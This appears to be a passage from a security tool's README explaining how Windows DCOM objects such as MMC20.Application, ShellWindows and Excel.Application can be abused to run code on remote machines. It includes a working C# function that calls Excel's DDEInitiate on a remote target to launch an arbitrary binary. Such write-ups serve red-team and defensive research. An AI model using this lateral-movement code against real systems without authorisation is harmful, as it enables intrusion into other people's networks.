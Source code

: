 ## Abuse

As explained, DCOM objects can be invoked and used remotely, and under certain conditions, they allows to execute arbitrary code on the target machine. 

### Overview

In the amazing research of Matt Nelson, the following objects were found to be useful for executing arbitrary code:

1. ShellWindows
2. ShellBrowserWindows
3. MMC20.Application

These three objects share a very nice characteristic, their permissions cannot be altered on a per application basis by default.
That means that the only way to deny access to them is disabling DCOM access globally or implement a firewall-based protection.

After that, Philip Tsukerman published a new research, focused on Office Automation objects. The research shows how, abusing that feature, it is possible to execute arbitrary code as well.
The DCOM objects->functions that can be abused for this purpose were:

4. Excel.Application
    1. DDEInitiate
    2. RegisterXLL
5. Outlook.Application
    1. CreateObject->Shell.Application
    2. CreateObject->ScriptControl (office-32bit only)
6. Visio.InvisibleApp (same as Visio.Application, but should not show the Visio window)
    1. Addons
    2. ExecuteLine
7. Word.Application
    1. RunAutoMacro

### C# "Exploitation"

A C# implementation of the methods 1 to 4.1 has already been presented and implemented within both [SharpDCOM](https://github.com/rvrsh3ll/SharpCOM) by [rvrsh3ll](https://twitter.com/424f424f) and [CsDCOM](https://github.com/rasta-mouse/MiscTools/tree/master/CsDCOM) by [rasta_mouse](https://twitter.com/_rastamouse), and repeating the obvious is not the author intention, however, it's necessary to explain how DCOM objects are called using C#. In order to do that, it's good to see the implementation of ExcelDDE:<br>

```cs
static void ExcelDDE(string target, string binary, string arg)
{
    try
    {
        // PS> $excel = [activator]::CreateInstance([type]::GetTypeFromProgID("Excel.Application"))
        var type = Type.GetTypeFromProgID("Excel.Application", target);
        var obj = Activator.CreateInstance(type);
        // PS> $excel.DisplayAlerts =$false
        obj.GetType().InvokeMember("DisplayAlerts", BindingFlags.SetProperty, null, obj, new object[] { false });
        // PS> $excel.DDEInitiate($binary, $args)
        obj.GetType().InvokeMember("DDEInitiate", BindingFlags.InvokeMethod, null, obj, new object[] { binary, arg });
    }
    catch (Exception e)
    {
        Console.WriteLine(" [x] {0}", e.Message);
    }
}
```
